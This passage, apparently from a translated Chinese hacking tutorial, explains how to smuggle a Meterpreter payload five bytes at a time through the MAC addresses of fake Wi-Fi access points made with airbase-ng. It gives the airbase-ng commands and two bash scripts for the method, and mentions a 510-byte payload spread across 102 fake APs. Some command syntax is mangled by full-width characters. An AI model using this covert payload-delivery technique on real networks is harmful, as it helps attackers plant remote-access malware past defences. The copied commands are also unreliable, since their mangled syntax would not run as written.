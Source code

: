 cmd 1-3：sleep 15

cmd 1-4：killall airbase-ng

**步骤3：**攻击者系统将伪造的AP命名为“Fake”，MAC地址为00：dd：c0：09：45：f1

注意：Mac地址00：dd：c0：09：45：f1是注入的有效载荷，所以我们的有效载荷是“ddc00945f1”

cmd 3-1：airbase-ng -a 00：dd：c0：09：45：f1 -essid“Fake”-I 10 -0 wlan0mon

注意：你需要15秒伪造AP，15秒后你可以通过killall命令在cmd 3-1终止这个命令。cmd 3-2：sleep 15

cmd 3-3：killall airbase-ng

你可以看到在实施这些步骤的时候，我们需要使用以上命令，但是我在airbase-ng命令上遇到了大问题。

<br>

**问题以及解决方案**

问题出现在步骤（cmd 1-2）到（cmd 1-3）。

在步骤（cmd 1-2）之后，只有通过ctrl + c或kill能终止airbaseng命令，所以我的bash脚本总是停在步骤（cmd 1-2），直到我终止了进程。

针对这个问题，我的解决方案是使用2 个bash脚本文件：

第一个bash脚本文件是 “Script1.sh”， 使用于步骤（cmd 1-2和cmd 3-1）

注意：你可以在bash脚本的第一行中添加步骤（cmd 1-1）或手动执行。在本文中，我手动执行cmd 1-1。

第二个bash脚本是 “Script2.sh”，使用于步骤（cmd 1-3 &amp; cmd 1-4 &amp; cmd 3-2 &amp; cmd 3-3）

所以在这种情况下，我们应该首先运行bash脚本“Script1.sh”，然后立即或2-3秒后运行bash脚本“Script2.sh”。

我们得到以下的文件：

Script1.sh文件：



```
＃！/ bin / bash
airbase-ng -a 00：fe：c8：b0：00：11 -essid“Fake”-I 10 -0 wlan0mon;
airbase-ng -a 00：dd：c0：09：45：f1 -essid“Fake”-I 10 -0 wlan0mon;
Script2.sh文件：
#!/bin/bash
sleep 15 ;
killall airbase-ng ;
sleep 15 ;
killall airbase-ng ;
```

注意：你可以在bash脚本“Script2.sh”文件中使用循环命令，例如使用（for）。

如图A所示，我们有script1.sh文件，用于将Meterpreter 有效载荷注入到BSSID。

[![](https://p2.ssl.qhimg.com/t01a9b6dbcf1d2a61c2.png)](https://p2.ssl.qhimg.com/t01a9b6dbcf1d2a61c2.png)

图A

如图A所示，Meterpreter 有效载荷从第3行开始。在本文中我的Meterpreter 有效载荷是510字节。在这种情况下，使用airbase-ng命令可以为名为“Fake”的伪造AP注入5字节的有效载荷到BSSID。因此我们应该有102行用于通过airbase-ng命令将所有的有效载荷注入到BSSID。
